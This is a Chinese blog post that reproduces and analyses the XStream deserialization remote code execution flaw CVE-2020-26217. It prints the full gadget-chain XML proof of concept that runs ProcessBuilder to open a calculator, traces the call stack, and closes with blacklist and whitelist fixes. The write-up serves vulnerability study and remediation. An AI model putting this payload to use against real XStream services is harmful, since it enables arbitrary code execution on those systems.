# Xstream 远程代码执行(CVE-2020-26217）复现分析 - v1ntlyn - 博客园

> 原文：[`www.cnblogs.com/v1ntlyn/p/14034019.html`](https://www.cnblogs.com/v1ntlyn/p/14034019.html)

## 前言

Xstream 是一个基于 java 语言的 xml 操作类库，同时也是 Java 对象和 XML 相互转换的工具，提供了所有的基础类型、数组、集合等类型直接转换的支持。因此 XML 常用于数据交换、对象序列化。本文将从 Xstream 的环境搭建到 CVE-2020-26217 远程代码执行漏洞的复现分析做一个记录。

## 环境准备

本地环境：idea+jdk8.0

idea 新建一个 maven 项目



在 pom.xml 文件中添加如下依赖



接着右键 maven->Reimport 下载导入 Xstream1.4.13



新建一个 demo 类来方便调试

```
import com.thoughtworks.xstream.XStream;

public class XstreamDemo {
    public static void main(String[] args){
        String xml = "<map>poc</map>";
        XStream xstream = new XStream();
        xstream.fromXML(xml);
    }
} 
```

## 复现分析

在 Xstream 的官网已经发布了官方的 poc,链接：[`x-stream.github.io/CVE-2020-26217.html`](https://x-stream.github.io/CVE-2020-26217.html)

内容如下：

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>calc</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map> 
```

把这段 poc 替换进我们新建的 demo 类中的 xml，运行后成功弹出了计算器



首先为了观察整个 gadget 的调用栈，在 poc 中可以看出，最后一步会运行到 java.lang.ProcessBuilder#start 方法，所以直接来到这里下断点调试


发现调用栈还是很长的，下面一点一点来跟着 poc 和调用栈分析


先回到最开始的入口来


先把我们的 poc 作为 xml 参数传入 fromXML 方法，后面接着又调用了 XStream#unmarshal()方法，参数为处理后的 poc 字符输入流


跟入 XStream#unmarshal()方法，后面又调用了 AbstractTreeMarshallingStrategy#unmarshal()


后面调用了 start(),接着跟入


接着开始进入到 convertAnother()方法，也就是 xml 到 java 类对象的一系列转换


经过了几个 convert 转换后，接着调用了 MapConvert#unmarshal()方法，先是实例化生成了一个 map 对象，然后又调用 populateMap()把数据封装到 map 对象里


跟入 putCurrentEntryIntoMap()方法


这里开始调用了 hashmap#put()方法


这里的 key 也就是我们构造的 entry 类实例对象，查看其属性，可以发现跟我们的 POC 是逐一对应的



后面就是相继调用了 hashmap#hash()方法和 NativeString#hashcode()方法

跟入 getStringValue()方法，这里的 value 值是 Base64Data 类实例化对象，所以接着就调用了 Base64Data#toString()方法


跟入 Base64Data#toString()后发现又调用了 Base64Data#get()方法，跟着直接查看 Base64Data#get()方法



跟踪`this.dataHandler`这个变量值，可以看到`this.dataHandler.getDataSource().getInputStream()`获取的就是 SequenceInputStream 类的实例对象，并以此为参数传入了 ByteArrayOutputStreamEx#readForm()方法




跟入 ByteArrayOutputStreamEx#readForm()，这里的`is`也就是 SequenceInputStream 类，所以后面也就是调用了 SequenceInputStream#read()方法



在 SequenceInputStream#read()方法去读取 inputstream 对象全部内容的过程中，就会调用 nextStream()方法遍历其中所有数据



进入到 SequenceInputStream#nextStream()方法后，会先循环调用每个 Enumeration 的 nextElement()方法，然后在 Enumeration 的 nextElement()方法中会去遍历整个迭代器 iterator，从而去调用到 ServiceRegistry 注册服务类的 next()方法


再跟进 ServiceRegistry#advance()方法，首先先判断迭代器的下一个对象是否为空，即调用 hasNext()方法，不为空则返回 true 并进入 while 循环取出对象；而这里的 iter 是我们预先构建好的迭代器，返回生成对象 elt 是 processBuilder 类，接着在后面的 filter 也是我们构造的 ImageIO 类中的一个 ContainsFilter 内部类，接下来于是也就调用了 ImageIO$ContainsFilter#filter()方法



在调试栏中我们查看该 ImageIO$ContainsFilter 这个内部类里对应的属性可以看出其实也就是我们 poc 所构造好的


最后再跟入 ImageIO$ContainsFilter#filter()方法，终于在这里实现了反射调用到了 ProcessBuilder 类的 start()方法，另外所需的参数也包含 ImageIO$ContainsFilter 这个内部类中，而这个类所创建的对象也是可控的，也就是说所需的参数均可控，从而导致了这次的代码执行漏洞。


这就是这整个调用栈的运行处理过程了，所以这个漏洞总的来说就是因为用户可以构造 xml 的恶意输入，让 Xstream 在处理反序列化的时候生成了恶意的对象类 ContainsFilter，并通过 ImageIO$ContainsFilter#filter()这个 gadget 去反射调用任意构造好的类方法，比如 poc 里的 processBuilder 类的 start()方法去启动一个 calc 计算器的进程，从而导致了代码执行漏洞。

## 修复方案

我们知道了漏洞的根本原因就是恶意 xml 输入可以构造出恶意的对象，那么最简单粗暴的方法的就是将这次 gadget 的关键类拉入黑名单，不过这样的修复方式往往都是治标不治本，最理想的修复方式就是通过白名单的方式明确控制反序列化对象的类名，不过考虑到一些业务的复杂度，可能白名单是理想但又不够合适的方式，下面两种实现方式都介绍一下：

### 1.黑名单方式（简单粗暴）

```
XStream xstream = new XStream();
// 首先清除默认设置，然后进行自定义设置
xstream.addPermission(NoTypePermission.NONE);
//将 ImageIO 类加入黑名单
xstream.denyPermission(new ExplicitTypePermission(new Class[]{ImageIO.class}));
xstream.fromXML(xml); 
```



### 2.白名单方式（推荐）

```
XStream xstream = new XStream();
// 首先清除默认设置，然后进行自定义设置
xstream.addPermission(NoTypePermission.NONE);
// 添加一些基础的类型，如 Array、NULL、primitive
xstream.addPermission(ArrayTypePermission.ARRAYS);
xstream.addPermission(NullPermission.NULL);
xstream.addPermission(PrimitiveTypePermission.PRIMITIVES);
// 添加自定义的类列表
stream.addPermission(new ExplicitTypePermission(new Class[]{Date.class})); 
```

## Reference

[`xz.aliyun.com/t/8526`](https://xz.aliyun.com/t/8526)

[`github.com/Cryin/Paper/blob/master/Xstream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md`](https://github.com/Cryin/Paper/blob/master/Xstream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)